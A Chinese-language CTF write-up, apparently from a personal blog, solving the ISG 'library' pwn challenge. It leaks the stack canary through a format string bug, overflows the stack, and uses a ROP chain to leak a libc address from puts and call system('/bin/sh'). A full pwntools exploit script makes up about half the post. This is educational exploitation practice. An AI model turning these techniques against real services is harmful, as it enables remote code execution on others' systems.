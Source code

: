 ```yaml
---
title: ISG初赛library
author: rk700
layout: post
tags:
  - exploit
---
```


子曰：温故而知新。最近一段时间没有练习pwn的题目，正好当时ISG初赛的library还一直没研究，于是练习了下。果然是稍微放一放就生疏了……

比较明显的问题是在register里，有一个format string attack。但这道题对这里还是有一些限制，比如字符串长度只有15，而且一旦调用过一次就不能再调用了。我最初光考虑这个漏洞了，想好久也没有找到好的方法。因为有ASLR，所以必须先读某个函数的地址，再改got；但是只能调用一次这点限制太严重了，而且15个字符基本上改不了什么。

然后看到query里有一处读输入到栈上的代码，而读的长度是在一个全局变量里保存的，到此才稍微明白了思路：可以改这个全局变量使得读输入溢出，修改返回地址。但在query里还检查了canary，所以我们还需要canary的值，而这个值可以从format string那里得到。由于canary保存在栈上，为了读栈上的内容，用的格式是`%x`，所以要把返回的8 bytes的hex转化为4 bytes的内容。

具体地，改全局变量那里，由于15个字符的限制，只能改一下了，所以可以把全局变量的高位改为非零，这样的话全局变量的值就成了一个大数。

可以修改返回地址后，我又陷入了思维定式，还想再用format string来读函数地址。但正如前面所说，对register有限制；想要修改返回地址为main从头再来，但全局变量那里又需要再改了……最后意识到，一旦可以修改返回地址，就直接rop了，不需要再利用限制那么严格的format string。

于是，用`puts`来打印函数地址。rop最后跳到query里，再一次造成溢出，执行`system`。

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys

if __name__ == '__main__' :
    context(arch='i386', os='linux')

    #libc = ELF('/opt/arch32/usr/lib/libc.so.6')
    systemLibcAddr = 0x3b010#libc.symbols['system']
    #print hex(systemLibcAddr)
    putsLibcAddr = 0x64250#libc.symbols['puts']
    #print hex(putsLibcAddr)
    shStrLibcAddr = 0x15d1b3#next(libc.search('/bin/sh\x00'))
    #print hex(shStrLibcAddr)

    elf = ELF('library')
    putsGot = elf.got['puts']
    putsPlt = elf.plt['puts']

    leftTime = 0x0804b008
    doQuery = 0x08048971

    ip = "127.0.0.1"#sys.argv[1]
    conn = remote(ip, 1111)

    payload = "1\n" + p32(leftTime+1) + "%35$x%10$hn\n"
    conn.send(payload)
    conn.recvuntil("Mr./Mrs. "+p32(leftTime+1))
    canary = int(conn.recvn(8),16)
    #print "canary is %s" % hex(canary)

    payload = "2\n" + "A"*0x100 + p32(canary) + "B"*12 + p32(putsPlt) + p32(doQuery) + p32(putsGot) + "\n"
    conn.send(payload)
    conn.recvuntil(":'(\n")

    putsMemAddr = unpack(conn.recvn(4))
    systemMemAddr = putsMemAddr + (systemLibcAddr - putsLibcAddr)
    shStrMemAddr = putsMemAddr + (shStrLibcAddr-putsLibcAddr)
    #print "system is at %s" % hex(systemMemAddr)
    #print "puts is at %s" % hex(putsMemAddr)
    #print "sh is at %s" % hex(shStrMemAddr)

    payload = "A"*0x100 + p32(canary) + "B"*12 + p32(systemMemAddr) + p32(0xabcdabcd) + p32(shStrMemAddr) + "\n"
    conn.send(payload)

    conn.interactive()
{% endhighlight %}

